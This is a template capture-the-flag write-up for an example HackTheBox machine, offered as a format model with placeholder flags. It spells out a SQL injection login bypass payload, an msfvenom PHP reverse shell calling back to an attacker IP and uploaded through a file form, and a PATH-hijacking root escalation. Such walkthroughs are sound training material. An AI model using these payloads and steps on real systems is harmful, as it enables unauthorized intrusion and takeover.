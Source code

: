 # Example Machine

## Information

- **Difficulty**: Easy
- **Category**: Machine
- **Platform**: HackTheBox
- **Date**: 2025-01-15
- **Points**: 20

## Challenge Description

This is an example writeup to demonstrate the structure and format that should be used for machine writeups in this repository. Replace this with the actual description of the machine.

## Reconnaissance

### Initial Scan

```bash
# Nmap scan
nmap -sC -sV -oN nmap_initial.txt 10.10.10.1

# Results show:
# PORT   STATE SERVICE VERSION
# 22/tcp open  ssh     OpenSSH 7.6p1
# 80/tcp open  http    Apache httpd 2.4.29
```

### Findings

- SSH service running on port 22 (OpenSSH 7.6p1)
- HTTP service running on port 80 (Apache 2.4.29)
- Web application appears to be a custom CMS

## Exploitation

### Vulnerability Analysis

After enumerating the web application, we discovered:
- SQL injection vulnerability in the login form
- Directory traversal in the file upload functionality

### Exploit Development

```bash
# SQL injection to bypass authentication
curl -X POST http://10.10.10.1/login \
  -d "username=admin' OR '1'='1&password=anything"

# After getting access, upload a reverse shell
msfvenom -p php/reverse_php LHOST=10.10.14.5 LPORT=4444 -f raw > shell.php

# Upload the shell via the vulnerable upload feature
curl -X POST http://10.10.10.1/upload \
  -F "file=@shell.php"
```

### User Flag

```
User flag location: /home/user/user.txt
Flag: HTB{example_user_flag_here}
```

## Privilege Escalation

### Enumeration

```bash
# Check for SUID binaries
find / -perm -4000 2>/dev/null

# Check sudo privileges
sudo -l

# Found: User can run /usr/bin/custom_script as root without password
```

### Exploitation

The custom script had a vulnerability that allowed path hijacking:

```bash
# Create a malicious script
echo '#!/bin/bash' > /tmp/ls
echo '/bin/bash' >> /tmp/ls
chmod +x /tmp/ls

# Modify PATH
export PATH=/tmp:$PATH

# Run the vulnerable script
sudo /usr/bin/custom_script
```

### Root Flag

```
Root flag location: /root/root.txt
Flag: HTB{example_root_flag_here}
```

## Lessons Learned

- Always check for SQL injection vulnerabilities in login forms
- File upload functionality should validate file types and content
- SUID binaries and sudo privileges require careful configuration
- Path hijacking can lead to privilege escalation when scripts don't use absolute paths

## Tools Used

- Nmap - Network reconnaissance
- Burp Suite - Web application testing
- SQLMap - SQL injection exploitation
- Metasploit Framework (msfvenom) - Payload generation
- LinPEAS - Linux privilege escalation enumeration

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [GTFOBins](https://gtfobins.github.io/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
